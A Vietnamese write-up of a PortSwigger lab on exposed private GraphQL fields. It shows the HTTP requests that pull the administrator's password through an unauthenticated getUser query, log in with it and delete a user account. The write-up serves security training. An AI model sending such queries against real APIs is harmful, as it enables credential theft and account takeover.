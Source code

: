 # Write-up: Accidental exposure of private GraphQL fields

### Tổng quan
Khai thác lỗ hổng trong API GraphQL, nơi các trường nhạy cảm như `password` trong query `getUser` vô tình bị để lộ mà không có kiểm soát truy cập. Bằng cách sử dụng InQL để phân tích schema và gửi query đến endpoint `/graphql/v1`, kẻ tấn công lấy được thông tin đăng nhập của tài khoản `administrator`, đăng nhập và xóa tài khoản `carlos`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng lộ trường nhạy cảm trong query GraphQL `getUser`, lấy thông tin đăng nhập của `administrator`, đăng nhập và xóa tài khoản `carlos`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Quan sát Burp History, tìm request gửi đến endpoint `/graphql/v1`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}"
  }
  ```  
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý query `getAllBlogPosts`, trả về thông tin công khai của bài viết (image, title, summary, id).  
  - Điều này xác nhận ứng dụng sử dụng GraphQL, có thể có các query/mutation khác:  
    ![Request getBlogSummaries](./images/1_graphql.png)  

2. **Phân tích schema với InQL**  
- Sử dụng InQL Scanner (Burp Suite Extension) để quét endpoint `/graphql/v1` và lấy schema.  
- Kết quả: Phát hiện query `getUser` với các trường nhạy cảm:  
  ```
  query getUser {
    getUser(id: Int!) {
        id
        password
        username
    }
  }
  ```  
- **Phân tích**: Trường `password` được trả về mà không yêu cầu xác thực, cho thấy lỗ hổng lộ thông tin nhạy cảm:  
  

3. **Khai thác (Exploitation)**  
- Sử dụng Burp Repeater, gửi query `getUser` với `id=1` để lấy thông tin người dùng:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query login {\n    getUser(id:1) {\n        password\n        id\n        username\n    }\n}"
  }
  ```  
- Kết quả: Trả về thông tin đăng nhập của tài khoản `administrator`:  
  ```
  {
    "data": {
      "getUser": {
        "password": "b18xyjx5q1j4vzfp5p4e",
        "id": 1,
        "username": "administrator"
      }
    }
  }
  ```  
- **Phân tích**: Lỗ hổng cho phép truy cập trường `password` mà không cần xác thực:  
  ![Schema trong InQL](./images/2_getUser.png)  

4. **Đăng nhập và hoàn thành lab**  
- Sử dụng thông tin đăng nhập `administrator:b18xyjx5q1j4vzfp5p4e` để đăng nhập:  
  ```
  POST /login HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=administrator&password=b18xyjx5q1j4vzfp5p4e
  ```  
- Kết quả: Đăng nhập thành công, nhận cookie `session` cho tài khoản `administrator`

- Truy cập `/admin` hoặc endpoint liên quan để xóa tài khoản `carlos`:  
  ```
  POST /admin/delete HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  username=carlos
  ```  
- Kết quả: Tài khoản `carlos` bị xóa, lab xác nhận hoàn thành:  
  ![Lab hoàn thành](./images/3_solved.png)  

- **Ý tưởng payload**:  
  - Sử dụng query `getUser` để lấy trường `password` của `administrator`, sau đó đăng nhập và xóa tài khoản `carlos`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng lộ trường nhạy cảm trong GraphQL, sử dụng query `getUser` để lấy thông tin đăng nhập mà không cần xác thực.  
- Nhận thức tầm quan trọng của việc kiểm soát truy cập các trường nhạy cảm trong schema GraphQL, áp dụng xác thực và phân quyền để ngăn chặn rò rỉ thông tin như mật khẩu.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng lộ trường nhạy cảm trong API GraphQL, nhấn mạnh tầm quan trọng của việc kiểm soát truy cập và bảo vệ các trường như `password` để ngăn chặn leo thang đặc quyền. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*